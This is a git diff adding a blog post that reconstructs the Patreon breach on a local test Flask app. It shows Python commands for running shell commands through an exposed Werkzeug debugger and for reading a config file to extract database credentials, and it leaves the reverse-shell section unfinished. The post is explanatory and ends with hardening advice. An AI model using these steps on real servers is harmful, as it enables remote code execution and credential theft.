

reverse shell

Changed region(s): [[0.0, 0.0, 1.0, 0.3529]]

diff --git a/patreon-hack-2/post2.md b/patreon-hack-2/post2.md
@@ -41,3 +41,71 @@ We now have a fully-fledged Flask application running with a WSGI server.
 
 Open up a web browser and navigate to `http://127.0.0.1:7777`
 
+![Working flask server](./first-hello-world.png)
+
+## Enter Werkzeug Debugger
+Because we specified the `debug=True` flag at runtime, the Werkzeug debugger is now active. That means, if any errors occur server-side, the powerful Werkzeug debugger is exposed. There are some scenarios when may occur:
+
+ * Faulty server-side code
+ * Unhandled exceptions
+ * Environment or other state that the server-side code assumes has changed
+ * Client-side intervention by passing faulty data that the app doesn't know how to handle (or again, unhandled exceptions)
+
+All's said and done, it's just best practice to simply **disable** the Werkzeug debugger when the server goes live -- for whatever reason, Patreon didn't.
+
+For simplicity's sake, we'll be invoking by faulty server-side code in order to invoke the Werkzeug debugger. When the user navigates to the `error` endpoint, the server will try to divide 3 by 0, raising a `ZeroDivisionError`.
+
+It's pretty powerful though, potentially useful for a developer:
+
+![Werkzeug](./second-werkzeug.png)
+
+As you can see, Werkzeug allows you to open up an **interactive shell** right there in the browser. This shell has the ability to run arbitrary code against a Python interpreter, and has access to all the underlying server and system information.
+
+## Remote Code Execution inside the browser
+
+When your application exposes the ability for the end-user to inject arbitrary code, it's **game over**. I could just call it a day right here, but let's continue in our exploitation.
+
+![](./third-werkzeug.png)
+And we can run arbitrary code indeed. Here I've imported the `os` module, which allowed you to inspect and manipulate the underlying system. I then invoked a command to view all of the environment variables, thereby exposing details about the username, the shell, the system, etc. You can also use the `os` module to run commands directly against the system:
+
+    >>> cmd_output = os.popen('ls -la').read()
+    >>> print(cmd_output)
+    my-flask-app.py
+    server.conf
+
+
+At this point, provided you know some basic Python, or how to do a Google search by Python commands, it's *trivial* to exploit this system.
+
+But first, let's simplify our *remote code execution* by defining a `lambda`, so we're not typing `os.popen(<command>).read()` every time. Make sure to send your command as a `string`.
+
+    >>> rex = lambda cmd, os=os: print(os.popen(cmd).read())
+    >>> rex('uname -a')
+    Linux my-computer 4.2.5-1-ARCH #1 SMP PREEMPT Tue Oct 27 08:13:28 CET 2015 x86_64 GNU/Linux
+
+Cool. The lambda works.
+Now we want to find the login credentials to access the MySQL database, in order to get all of the user data. We by inspecting that shiney `server.conf`files we saw when we first invoked `ls`.
+
+    >>> rex('cat server.conf')
+    PROJECT_NAME = 'My Flask App'
+    SQLALCHEMY_DATABASE_URI = 'mysql://root:root@10.0.2.15:3306/my_flask_app'
+
+`SQLALCHEMY_DATABASE_URI` is a connection string that the Flask app uses to connect to its database. This connection string has all the information we need to get unauthorized access to the MySQL server: username, password, IP address, port, and database name.
+
+Let me just pause right here and say that it's a **terrible** practice to store your passwords and configuration files in plaintext. Had Patreon encrypted their configuration files, there's a good chance the hackers wouldn't have gained access to the MySQL database (and user info), and the hack would have stopped right here.
+
+## Reverse Shell through Werkzeug Debugger, and pivot
+
+Let's assume Patreon's database as actually inside some internal network that isn't exposed to the public Internet: `10.0.2.15` At this point we do what's known as **pivoting** -- using a compromised machine to attack another machine.
+
+First, let's enter into a persistent interactive BASH session.
+
+    >>> rex('which bash')
+    /usr/bin/bash
+    >>> import subprocess
+    >>> p = sub
+
+
+## Final thoughts
+Do realize that all of these steps above can be automated, meaning any scriptkiddie with `Metasploit`, or any bot, can perform these.
+
+Don't expose your debugger in production!

diff --git a/Readme.md b/Readme.md
@@ -1,0 +1,4 @@
+# blog-assets
+Various code, images, etc, associated with my blog posts.
+
+Raphael Enochian, copyright 2015
